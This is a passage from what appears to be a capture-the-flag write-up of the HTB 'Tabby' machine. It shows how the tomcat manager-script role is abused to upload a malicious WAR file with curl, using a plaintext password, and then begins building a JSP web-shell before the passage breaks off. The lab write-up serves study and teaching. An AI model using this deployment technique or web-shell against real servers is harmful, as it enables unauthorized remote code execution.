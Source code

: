 ![Manager page blocked](/assets/htb/Tabby/tomcat-manager-blocked.png)

By default the manager page is only accessible via localhost. We can only access it, if we have the `manager-gui` role. Checking our roles again, we do not have this role, however we do have the `manager-script` role.

## Deploying a malicious war to get a shell

Now that we have enumerate the system and found our initial foothold attack-vector, let us upload a malicious war to get a shell as the user tomcat. 

Googling for the term `manager-script deploy war`, we get [this stackoverflow post](https://stackoverflow.com/questions/4432684/tomcat-manager-remote-deploy-script). That gives us a good idea of how to deploy a war file using the `manager-script` role:

```bash
curl --upload-file <path to warfile> "http://<tomcat username>:<tomcat password>@<hostname>:<port>/manager/deploy?path=/<context>&update=true"
```

 Checking out the [official docs](https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Supported_Manager_Commands), we find that we need to change the path from `/manager/deploy` to `manager/text/deploy`.  

This gives us the following command to upload war files:

```bash
curl --upload-file evil.war 'http://tomcat:$3cureP4s5w0rd123!@10.10.10.194:8080/manager/text/deploy?path=/chronos&update=true'
```

Now that we have a way to upload the evil war file, let us generate our payload to get a shell.

### Way 1: Web-shell

We can generate a war file with a simple jsp web-shell in it.

```bash
root@darkness:~# mkdir war
root@darkness:~# cd war/
root@darkness:~/war# vim index.jsp
```
